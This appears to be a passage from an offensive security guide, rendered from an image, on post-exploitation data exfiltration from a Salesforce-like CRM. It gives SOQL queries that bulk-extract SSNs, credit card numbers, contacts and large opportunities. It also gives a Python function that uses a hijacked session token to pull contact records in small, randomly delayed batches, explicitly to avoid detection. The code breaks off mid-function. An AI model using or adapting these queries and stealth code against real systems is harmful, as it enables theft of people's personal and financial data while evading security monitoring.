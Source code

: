 
## Post-Exploitation & Persistence

### 1. Data Exfiltration Techniques

**Objective**: Methods for extracting data after gaining unauthorized access.

**Bulk Data Extraction**:
```sql
-- Comprehensive data extraction queries
SELECT Id, Name, Email, Phone, SSN__c, Credit_Card__c 
FROM Contact 
LIMIT 50000

-- Incremental extraction to avoid detection
SELECT Id, Name, AnnualRevenue, LastModifiedDate 
FROM Account 
WHERE LastModifiedDate > 2023-01-01T00:00:00Z

-- Relationship traversal for connected data
SELECT Id, Name, (SELECT Id, Email, Phone FROM Contacts) 
FROM Account

-- Financial data extraction
SELECT Id, Name, Amount, CloseDate, StageName,
       (SELECT Id, Name FROM Account) 
FROM Opportunity 
WHERE Amount > 100000
```

**Stealth Extraction Methods**:
```python
def stealth_data_extraction(session_id, instance_url):
    """Extract data using small, frequent queries to avoid detection"""
    import time
    import random
    
    headers = {'Authorization': f'Bearer {session_id}'}
    extracted_data = []
    
    # Small batch sizes with random delays
    batch_size = 50
    delay_range = (5, 15)  # 5-15 seconds between requests
    
    offset = 0
    while True:
        query = f"SELECT Id, Name, Email FROM Contact LIMIT {batch_size} OFFSET {offset}"
        
        response = requests.get(
            f"{instance_url}/services/data/v52.0/query",
            headers=headers,
            params={'q': query}
        )
        
        if response.status_code == 200:
            data = response.json()
            if not data['records']:
                break
                
            extracted_data.extend(data['records'])
            offset += batch_size
            
            # Random delay to avoid detection
            time.sleep(random.uniform(*delay_range))
        else:
```